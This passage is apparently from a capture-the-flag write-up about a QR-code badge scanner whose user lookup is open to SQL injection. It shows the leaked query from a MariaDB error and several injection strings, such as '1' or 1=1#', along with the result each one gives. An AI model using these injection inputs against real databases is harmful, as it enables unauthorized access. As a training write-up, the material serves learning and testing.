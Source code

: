 <img src='scan.jpg' width=500px>

When I try a random QR Code, it gives the error message
`No Authorized User Account Found`.

The elf gave us a hint about SQL Injection, so let's try generating a QR Code
with SQL Injection special characters.

Trying the input `1' or '1=1'` results in a SQL parse error being thrown on
the scanner, but the input passes by way too fast to read (I think I caught
that it was `mariadb` error 1064 which corresponds to SQL syntax error).

```
{"data":"EXCEPTION AT (LINE 96 \"user_info = query(\"SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '{}' LIMIT 1\".format(uid))\"): (1064, u\"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' LIMIT 1' at line 1\")","request":false}
```

Trying various other inputs..

```
1' or 1=1--  [SYNTAX ERROR]
1' or 1=1#   [USER DISABLED]
1 or 1=1#    [NO USER FOUND]
```
